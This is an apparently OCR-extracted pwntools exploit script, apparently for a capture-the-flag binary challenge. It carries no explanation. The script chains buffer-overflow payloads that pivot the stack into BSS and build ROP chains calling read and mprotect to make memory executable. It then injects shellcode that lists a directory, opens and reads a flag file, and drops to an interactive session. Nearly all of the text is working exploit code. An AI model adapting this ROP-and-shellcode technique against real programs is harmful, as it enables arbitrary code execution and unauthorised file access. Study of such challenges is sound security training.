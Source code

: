 ```bash

pay=b'a'*0x60+p64(bss5+0x60)+p64(read)
r.send(pay)

pay = p64(bss5+0x70)+p64(rdi)+p64(0x404000)+p64(rsi_r15)+p64(0x1000)+p64(0)+p64(pop_rdx12)+p64(7)+p64(0x401090)+p64(mprotect)+p64(main)
r.send(pay) 

r.recv()
pay=b'a'*0x60+p64(bss6)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss6+0x60)+p64(read)
r.send(pay)

pay=p64(bss6+0x70)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss6+0x200)+p64(pop_rdx12)+p64(0x100)+p64(0x401090)+p64(read_addr)+p64(bss6+0x200)

r.send(pay)

sleep(0.2)
shellcode = b''
shellcode += asm(shellcraft.open('./'))
shellcode += asm(shellcraft.getdents64(3, bss9, 0x200))
shellcode += asm(shellcraft.write(1,bss9, 0x200))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))

r.send(shellcode)

r.recvuntil('flag')
flag=r.recv(6)
print(flag)

r.recv()
pay=b'a'*0x60+p64(bss7)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss7+0x60)+p64(read)
r.send(pay)

r.recv()
pay=p64(bss7+0x70)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(0x404800)+p64(pop_rdx12)+p64(0x100)+p64(0x401090)+p64(read_addr)+p64(0x404800)

r.send(pay)

sleep(0.2)
shellcode = b''
shellcode += asm(shellcraft.open('./flag284876'))
shellcode += asm(shellcraft.read(4,0x404900,0x100))
shellcode += asm(shellcraft.write(1,0x404900,0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))
r.send(shellcode)


r.interactive()
```

‍
